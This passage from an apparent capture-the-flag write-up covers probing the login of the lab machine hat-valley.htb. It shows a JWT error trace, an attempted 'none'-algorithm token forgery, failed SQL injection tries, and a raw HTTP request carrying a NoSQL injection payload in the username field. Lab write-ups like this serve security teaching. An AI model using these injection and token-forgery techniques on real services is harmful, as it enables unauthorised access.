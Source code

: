 But posting a request failed. 

```js
JsonWebTokenError: jwt malformed<br> &nbsp; &nbsp;at Object.module.exports [as verify] (/var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:63:17)<br> &nbsp; &nbsp;at /var/www/hat-valley.htb/server/server.js:62:30<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:144:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:114:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/www/hat-valley.htb/node_modules/express/lib/router/index.js:284:15<br> &nbsp; &nbsp;at Function.process_params (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:346:12)<br> &nbsp; &nbsp;at next (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:280:10)<br> &nbsp; &nbsp;at cookieParser (/var/www/hat-valley.htb/node_modules/cookie-parser/index.js:71:5)
```

My cookie was invalid. It was expecting a JWT. I tried forging one with the `none` algorithm. Especially since I know about a [recent vulnerability](https://security.snyk.io/vuln/SNYK-JS-JSONWEBTOKEN-3180026) in the library it used. But that failed.

The login attempts were posted to `/api/login`.

```http
POST /api/login HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 39
Origin: http://hat-valley.htb
Connection: close
Referer: http://hat-valley.htb/hr
Cookie: token=guest

{"username":"admin","password":"admin"}
```

I tried sending some SQL injections without any results.

I tried NoSQL injection in the username.

```http
POST /api/login HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 40
Origin: http://hat-valley.htb
Connection: close
Referer: http://hat-valley.htb/hr
Cookie: token=guest

{"username":{
"$ne":""},"password":"'"}
```
